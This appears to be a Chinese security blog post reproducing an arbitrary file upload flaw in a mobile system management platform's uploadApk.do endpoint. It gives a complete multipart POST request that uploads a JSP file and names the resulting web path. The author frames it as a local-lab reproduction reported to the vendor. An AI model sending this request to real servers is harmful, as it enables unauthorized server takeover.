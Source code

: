 #  某友移动系统管理平台文件上传

原创 背包客  [ Max安全研究院 ](javascript:void\(0\);)

**Max安全研究院** ![]()

微信号 baosec404

功能介绍 分享安全盛宴

____

___发表于_

收录于合集

#技术文章 6 个

#漏洞复现 2 个

# 前言

    本公众号仅用作技术研究，利用此文提及到的知识造成的 **任何直接或者间接的后果及损失** **，** 均由使用者本人负责，本人 **不为此承担任何责任** ， **本文中涉及的漏洞复现，均是自己搭建的本地靶场，禁止非法攻击未授权站点！！！** ****

* * *

# 漏洞描述

    uploadApk.do?pk_obj接口存在任意文件上传漏洞，通过漏洞攻击者可以获取服务器权限。

漏洞复现

发送请求包上传

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /maportal/appmanager/uploadApk.do?pk_obj=0001A1100000000H66QB HTTP/1.1Host: 127.0.0.1:8080Content-Length: 198Cache-Control: max-age=0Upgrade-Insecure-Requests: 1Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.serverConnection: close  
    ------WebKitFormBoundaryvLTG6zlX0gZ8LzO3Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"Content-Type: application/msword  
    hello------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--

![](https://gitee.com/fuli009/images/raw/master/public/20230714180426.png)

文件上传后的路径：http://ip/maupload/apk/a.jsp

![](https://gitee.com/fuli009/images/raw/master/public/20230714180427.png)

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！  

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

